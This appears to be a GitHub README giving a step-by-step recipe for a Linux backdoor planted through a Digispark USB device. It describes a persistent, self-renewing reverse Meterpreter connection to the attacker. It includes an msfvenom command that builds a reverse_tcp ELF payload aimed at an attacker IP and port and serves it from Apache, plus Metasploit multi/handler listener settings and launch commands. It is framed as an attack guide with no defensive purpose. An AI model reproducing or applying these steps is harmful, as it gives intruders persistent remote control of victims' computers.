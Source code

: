 # Backdoor (Linux Hacking)
The board is inserted into a free USB interface, the PC starts to download a malicious code from the attacker. This is executed on the Linux system to create a permanent (reverse) connection to the attacker. Since this connection can ever be interrupted for various reasons, a loop is built in, which sets up this connection after a predetermined period of time. It has virtually created a backdoor in the Linux system, which is always renewed. Regardless of whether the attacker is on the local network or on the Internet - he always has a permanent meter-to-peer connection and can execute further commands with the rights of the logged-in user (post-exploitation).

The attacker uses Kali Linux in the current version, the Metasploit framework and Apache as the web server. On the Linux system Ubuntu 16.04 LTS and Unity is used. This scenario can also be used with a few changes on a Linux server.


### Set up an attacker
- Postgresql, Apache2, and the Metasploit framework should be installed by default but not yet started.

  ```
  service postgresql start
  service apache2 start
  ```
- Next, the payload must be created and stored on the web server. We create the file **shell.elf** with the help of **msfvenom** and place it on the path of the web server:

  ```
  msfvenom  --platform linux  -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.180 LPORT=1337 -f elf > shell.elf cp shell.elf  /var/www/html
  ```
  
  Listener all response information from payload (victim's Linux OS) to attacker's computer with IP = 192.168.0.180, port number = 1337 and write a file shell.elf to html file
  For the variables LHOST (listener host) and LPORT (listener port), the IP address of the own system or the desired port is used.
  
  LHOST is also used to start a listener on a specific interface on your machine. For example:
  
  + use multi/handler
  + set payload windows/meterpreter/reverse-tcp
  + set lhost 0.0.0.0
  + set lport XXX
	
### Usage
- Prepare Kali Linux
- Open terminal:

  ```
  service postgresql start
  service apache2 start
  msfconsole -r shell.rc
  ```

- Plug Digispark into victim's PC and listener the their system 
